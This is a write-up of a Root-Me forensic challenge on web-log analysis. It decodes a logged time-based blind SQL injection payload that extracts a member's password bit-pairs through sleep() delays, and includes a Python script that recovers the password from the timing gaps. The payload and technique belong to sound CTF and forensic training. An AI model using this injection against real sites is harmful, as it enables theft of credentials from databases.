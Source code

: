 # Log analysis web attack

[root-me challenge](https://www.root-me.org/en/Challenges/Forensic/Logs-analysis-web-attack): Our website appears to have been attacked, but our system administrator does not understand web server logs. Can you find out if any data has been stolen?

----

First request:

```text
192.168.1.23 - - [18/Jun/2015:12:12:54 +0200] "GET /admin/?action=membres&order=QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk%3D HTTP/1.1" 200 1005 "-" "-"
```

Apache log, urldecode and base64decode:

```text
SELECT (
    CASE FIELD (
        concat(
            SUBSTRING(
                    bin(ascii(SUBSTRING(password,1,1))), 1, 1
            ),
            SUBSTRING(
                    bin(ascii(SUBSTRING(password,1,1))), 2, 1
            )
        ),
        concat(CHAR(48),CHAR(48)),
        concat(CHAR(48),CHAR(49)),
        concat(CHAR(49),CHAR(48)),
        concat(CHAR(49),CHAR(49))
)
    WHEN 1 THEN TRUE
    WHEN 2 THEN sleep(2)
    WHEN 3 THEN sleep(4)
    WHEN 4 THEN sleep(6)
    END
) FROM membres WHERE id=1
```

A blind sql injection attack, in which the attacker executes multiple queries separated by commas. `ASC` to display the list of members in order of largest to smallest, unrelated to the following query. From the select segment, the code to get the content of the password in the `mebres` table has `id=1`; with each character in the password field converted to integer, then to binary string. Each request in turn takes each 2 character bits of the binary string and finds its position in the field – `field(xx,'00','01','10','11')`, case `field=1` returns to true, then based on value of `field` go to `sleep`.

```python
from datetime import datetime

f = open("ch13.txt", "r")

timeList = []

char = ''
flag = ""

for line in f:
    timeList += [line[30:38]]

f.close()

for i in range(len(timeList) - 1):
    print(datetime.strptime(timeList[i], '%H:%M:%S'))
    print(datetime.strptime(timeList[i + 1], '%H:%M:%S'))

    timeleft = datetime.strptime(timeList[i + 1], '%H:%M:%S') - datetime.strptime(timeList[i], '%H:%M:%S')
    if i % 4 in [0, 1, 2]:
        if str(timeleft) == '0:00:00':
            char += '00'
        if str(timeleft) == '0:00:02':
            char += '01'
        if str(timeleft) == '0:00:04':
            char += '10'
        if str(timeleft) == '0:00:06':
            char += '11'
    if i % 4 == 3:
        if str(timeleft) == '0:00:02':
            char += '0'
        if str(timeleft) == '0:00:04':
            char += '1'
        print(char)
        flag += chr(int(char, 2))
        char = ''

print(flag)
```
